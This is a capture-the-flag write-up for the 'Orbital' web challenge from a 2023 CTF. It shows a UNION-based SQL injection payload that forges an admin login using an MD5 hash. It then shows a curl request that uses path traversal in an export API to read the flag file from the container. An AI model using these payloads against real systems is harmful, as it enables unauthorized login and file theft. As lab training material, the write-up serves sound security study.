 # Orbital

In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

## Writeup

There is a SQL Injection on **/login** page (with a **POST** method). 

So we can use this query in the username field and insert **2** in the password filed to login as **admin**.

This because we can use the SQL Injection to temporarily change the password of admin account, just only to complete the login phase.

**NB:** `c81e728d9d4c2f636f067f89cc14862c` is the **md5sum** of **2**, we must use it because the password in the database are memorized in hash format.

So, login with this credentials:

```
Username: ciao" union select 'admin' as username, 'c81e728d9d4c2f636f067f89cc14862c' as password --

Password: 2
```

Now, we can use the **/export** api to get a file.

For default is communication.mp3 but we can modify the **name** custom header to a **path traversal** of the flag.

The flag in the docker container is copyed as **signal_sleuth_firmware**.

We can see it in the following command of the **DockerFile**:

```dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

Now copy the **session** cookie from the **home** page:

![session-cookie](https://github.com/MicheleMosca/CTF/edit/main/Cyber%20Apocalypse%202023/Web/Orbital/.images/session-cookie.png)


And use it to do this request to get the flag (with a **path traversal**):

```bash
curl 'http://209.97.134.50:30040/api/export' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOekEwTkRjMmZRLkU0OHIxRHFCTlplS1BfZjhHaTJCaUZFQXRQbWtJTm1Vc3k3Yl9SSU5FQTQifQ.ZB3tPA.9_YY297R8T24o1KudVtjPAc9dek' \
  -H 'Origin: http://209.97.134.50:30040' \
  -H 'Referer: http://209.97.134.50:30040/home' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36' \
  --data-raw '{"name":"../../../../../../signal_sleuth_firmware"}' \
  --compressed \
  --insecure
```

This is the flag:

```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```
